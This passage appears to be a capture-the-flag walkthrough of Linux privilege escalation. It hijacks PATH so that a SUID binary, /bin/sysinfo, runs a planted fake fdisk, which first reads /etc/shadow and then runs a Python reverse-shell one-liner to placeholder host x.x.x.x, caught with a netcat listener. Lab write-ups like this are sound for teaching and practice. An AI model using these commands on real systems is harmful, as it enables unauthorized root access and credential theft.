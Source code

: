 That shell is fucky. Let's upgrade to something better.
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
stty raw -echo
fg
reset
```

If we run the PrivEsc Script now we can see a bit more.
Not much more, but we see a suid binary called /bin/sysinfo.

If we run that we get information about the system, like memory status, drives, etc. - basically what you would expect from a sysinfo binary.

Let's look at what this programm does with pspy32. Open another shell and run /bin/sysinfo.
We can see that uid 0 runs lhsw and fdisk -l.  
_You could probably just run strings on it to find that out too_  
Can we somehow hijack this?

First let's change our Path:
```bash
PATH=/tmp:$PATH
```

Add a fdisk binary inside /tmp:
```bash
cd /tmp
echo "cat /etc/shadow" > fdisk
chmod +x fdisk
```

If we now run sysinfo, we see `Permission denied` between the other hardware stuff.  
Oh probably should specify the whole path.  
Now we can see the shadow content... But I don't wanna crack the pw, let's send a shell to us back.

```bash
vi fdisk

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

chmod +x fdisk
```

Now listen on port 443 and run our sysinfo (this time the full path)
```bash
nc -lvp 443
/bin/sysinfo
```

And we're root!
```bash
cat root.txt
**********eab9fbe4773b2b5722934a
```